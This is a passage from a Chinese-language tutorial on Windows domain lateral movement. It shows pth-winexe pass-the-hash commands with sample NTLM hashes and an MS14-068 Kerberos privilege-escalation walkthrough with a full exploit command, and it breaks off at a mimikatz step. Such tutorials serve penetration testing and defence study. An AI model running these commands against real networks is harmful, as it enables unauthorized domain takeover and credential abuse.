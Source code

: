 ### PTH-EXEC

kali中自带的横向移动pth的工具，pth-winexe就是其中一个，还有与其类似的：

```bash
pth-winexe -U workgroup/administrator%AAD3B435B51404EEAAD3B435B51404EE:AFC44EE7351D61D00698796DA06B1EBF //17.10.0.10 cmd.exe

pth-winexe -U administrator%AAD3B435B51404EEAAD3B435B51404EE:AFC44EE7351D61D00698796DA06B1EBF //17.10.0.11 cmd.exe
```

![](https://raw.githubusercontent.com/ssooking/imgbed/master/img/yushentou-ntml-hash/20181203225415.png)

## Pass-The-Ticket

引用自[原文]([http://xnianq.cn/2018/10/16/%E5%9F%9F%E6%B8%97%E9%80%8F%E4%B9%8B%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8/](http://xnianq.cn/2018/10/16/域渗透之横向移动/)

ptt攻击的部分就不是简单的ntlm认证了，它是利用Kerberos协议进行攻击的，这里就介绍三种常见的攻击方法：

- MS14-068
- Golden ticket
- SILVER TICKET

之前介绍了Kerberos协议具体工作方法，在域中，简要介绍一下：

- 客户机将明文密码进行ntlm哈希,然后和时间戳一起加密(使用krbtgt密码hash作为密钥)，发送给kdc（域控）,kdc对用户进行检测，成功之后创建TGT(Ticket-Granting Ticket)
- 将TGT进行加密签名返回给客户机器，只有域用户krbtgt才能读取kerberos中tgt数据
- 然后客户机将tgt发送给域控制器KDC请求TGS（票证授权服务）票证，并且对tgt进行检测
- 检测成功之后，将目标服务账户的ntlm以及tgt进行加密，将加密后的结果返回给客户机。

- ### ms14-068

  > MS14-068是密钥分发中心（KDC）服务中的Windows漏洞。它允许经过身份验证的用户在其Kerberos票证（TGT）中插入任意PAC（表示所有用户权限的结构）。该漏洞位于kdcsvc.dll域控制器的密钥分发中心(KDC)中。用户可以通过呈现具有改变的PAC的Kerberos TGT来获得票证.

这里不得不说walkerfuz表哥写的这篇分析文章：<http://www.freebuf.com/vuls/56081.html> 最详细的分析，没有之一，向表哥学习！我用最简单的语言表达一下:

```bash
windows域中使用kerberos协议过程中，为了让SS服务器判断Client是否有权限访问服务，引入了PAC机制。构造PAC也是这个漏洞的根本。
1. 在请求AS时，将require_PAC设置成False。
2. 在请求TGS时，构造PAC，然后使用MD5签名（PAC尾部的签名算法可以任意指定），PAC并没有放在TGT中发送，而是在请求包的其他位置（但是还是可以解析）。
3. TGS_REP返回的不是会话密钥，而是返回的带PAC的TGT（微软的锅）
```

利用过程：
1.whoami/user 得到普通域用户的sid

2.执行payload生成ccache:

```bash
MS14-068.exe -u yifan@test.local -s S-1-5-21-4173655609-916892889-516531421-1108 -d dc-01.test.local -p A100b200
```

3.使用mimikatz注入凭据:
